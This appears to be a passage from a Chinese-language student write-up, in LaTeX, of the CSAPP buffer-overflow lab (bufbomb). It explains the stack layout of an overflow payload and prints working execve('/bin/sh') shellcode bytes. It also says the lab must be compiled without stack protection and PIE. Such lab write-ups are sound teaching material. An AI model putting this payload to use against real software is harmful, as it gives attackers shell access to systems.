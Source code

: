 \documentclass[a4pper,12pt,onecolumn]{article}
\begin{document}
 \texttt{padding + ebp}一共是24Bytes，但是考虑到Shellcode执行阶段可能遇到的 \texttt{push}指令，更好的选择其实是放在 \texttt{shellcode's start addr}的后面。

这时我们的payload就变成了下面的结构：


\begin{lstlisting}[style=DOS] padding + ebp + shellcode's start addr + shellcode \end{lstlisting}

在网上找一个小一点的Shellcode\footnote{利用int 0x80执行了/bin/sh的一段\href{https://shell-storm.org/shellcode/files/shellcode-841.html}{Shellcode}}，我们就得到了我们最终的Payload：

\begin{lstlisting}[style=DOS] 00000000 00000000 00000000 00000000 00000000 00000000 EBP START_ADDR 31C9F7E1 B00B5168 2F2F7368 682F6269 6E89E3CD 80 \end{lstlisting}

\begin{figure}[h]
    \centering
    \includegraphics[width=1\textwidth]{images/final_sh_shellcode}
    \caption{彩蛋：拿到shell后直接输出`getbuf returned 0xdeadbeef'}
\end{figure}

\begin{lstlisting}[style=DOS]
    # echo getbuf returned 0xdeadbeef
    getbuf returned 0xdeadbeef
\end{lstlisting}

\subsection{Summary}

首先声明一点，这个Assignment在CSAPP第三版中已经没有了。所以 \texttt{bufbomb.c}上面的参考价值不大。尤其是不要按照它上面的编译指令去编译： \texttt{-Og}和 \texttt{-O2}会把程序结构搅乱到根本做不了，没有-fno-stack-protector和-no-pie就是字面意思上的做不了这道题。
\end{document}
